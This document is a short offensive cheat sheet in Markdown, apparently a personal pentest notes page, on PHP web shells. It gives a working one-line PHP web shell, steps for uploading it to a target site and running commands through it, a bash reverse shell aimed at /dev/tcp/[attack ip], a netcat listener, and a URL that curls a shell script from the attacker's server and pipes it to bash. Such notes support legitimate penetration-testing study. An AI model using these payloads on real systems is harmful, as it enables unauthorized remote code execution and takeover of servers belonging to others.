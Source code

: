 # PHP Quick Reference

## Contents
- []()
- []()
- []()
- []()
- []()
- []()
- []()

## One-Liner: cmd
- This is a [PHP function](https://www.php.net/manual/en/function.system.php) that is used to execute a command.
- It uses the PHP `system()` function to execute commands that are being passed through `cmd` HTTP request `GET` parameter.
- The `cmd` is a parameter. You pass the argument to that parameter via the URL (see below).
- Reference: [An Introduction to Web Shells](https://www.acunetix.com/blog/articles/introduction-web-shells-part-1/)

### Syntax
- This is the PHP web shell in its most simple form: 
```
<?php system($_GET["cmd"]); ?>
```

### Use as a Test
- Create a PHP file and upload it to a target site that's running PHP:
```
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```
- Build a URL to execute that script with a command (specific to the operating system o/s).
- If you get a response from the command you send to the o/s via the PHP `system()` function, you know you can execute arbitrary code on the target.
```
# for Linux:
http://[target domain]/shell.php?cmd=id

# for Windows:
http://[target domain]/shell.php?cmd=dir
```

### Reverse Shell

#### Linux Payload
- Create a shell script file containing a [Bash one-liner](bash.md) for a reverse shell.
- Use vim or some other editor and create `shell.sh` containing the following: 
```
#!/bin/bash
bash -i &> /dev/tcp/[attack ip]/[port] 0>&1
```

#### Start a Listener
- On your attack machine, spin up a listener:
```
nc -nvlp 1234
```

#### Spin Up a Local Web Server
- Start a simple Python web server on your local attack machine to serve up the bash file.
- This command must be run from the subdir that contains `shell.sh`.
```
python3 -m http.server 8000
```

#### Build a URL with curl to Execute
- We combine the PHP one-liner with a curl command to fetch `shell.sh`, and then we pipe it to Bash in order to execute it.
```
http://[target domain]/shell.php?cmd=curl%20[local attack ip]:8000/shell.sh|bash
```











